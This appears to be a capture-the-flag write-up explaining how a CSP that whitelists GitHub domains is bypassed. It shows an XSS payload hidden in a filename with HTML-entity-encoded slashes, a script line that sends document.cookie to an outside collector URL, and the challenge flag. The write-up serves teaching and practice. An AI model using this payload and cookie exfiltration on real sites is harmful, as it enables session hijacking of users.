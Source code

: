 # GitHub Explorer

CSP is:

`default-src 'self' *.github.com *.github.io *.githubusercontent.com; style-src 'self' https://cdn.jsdelivr.net/npm/bootstrap@4.3.1/dist/css/bootstrap.min.css; style-src-elem 'self' https://cdn.jsdelivr.net/npm/bootstrap@4.3.1/dist/css/bootstrap.min.css;`

As we can see GitHub is whitelisted, so I can host our payload there and use it to bypass CSP.

- I can then create a repository and upload our payload to it but I have also to inject js code to the page to load our payload. How? The name of the files are not filtered, but they are filenames so cannot contain slashes.
- I can use this: [https://www.w3schools.com/charsets/ref_html_ascii.asp] (i knew from a cybersecurity challenge about xss)
- Basically / became: &#47;, boom

The filename `aaa<script src="https:&#47;&#47;raw.githubusercontent.com&#47;gio-del&#47;exploit_repo_ctf&#47;main&#47;script.js">`
Then at script.js `window.location = "https://envyc0swuvvf.x.pipedream.net" + document.cookie`

Due to some "MIME Mismatch" errror, the `raw.githubusercontent.com` domain cannot be used, because it serves plain text files where it should serve javascript files.
I can't use neither `*.github.com` since it will return the github pages and not the raw file.
I tried also to use `*.github.io` hosting on github pages and it did work

Flag: flag{sp3c14L_cHAr4cT3rS_sh0ulDnt_b3_4LL0w3d_1N_f1l3nAmEs} (in fact they shouldn't)
